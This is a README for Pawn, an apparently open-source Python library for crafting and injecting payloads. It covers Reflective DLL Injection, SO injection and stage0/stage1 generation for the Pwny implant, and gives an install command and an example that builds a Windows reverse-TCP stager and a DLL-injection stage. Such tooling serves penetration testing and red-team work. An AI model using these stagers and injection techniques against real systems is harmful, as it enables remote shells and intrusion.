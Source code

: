 # Pawn

Pawn is a collection of Python techniques used for crafting, manipulating and injecting payloads.

## Features

* Support for `Windows`, `macOS`, `Linux` and `Apple iOS`.
* Support for such techniques like `Reflective DLL Injection` and `SO injection`.
* Can generate stage0, stage1 and dynamic extensions for Pwny.

## Installation

```
pip3 install git+https://github.com/EntySec/Pawn
```

## Examples

Example of preparing stage0 and stage1 (which is DLL) for Windows x86.

```python
from pawn.windows.x86 import ReverseTCP, Bootstrap

stage0 = ReverseTCP().generate_reverse_tcp()
stage1 = Bootstrap().inject_dll("/tmp/pwny.dll")

print(len(stage0), len(stage1))
```

## Special Thanks

* Some parts of assembly code were ported from free open-source project [Metasploit Framework](https://github.com/rapid7/metasploit-framework).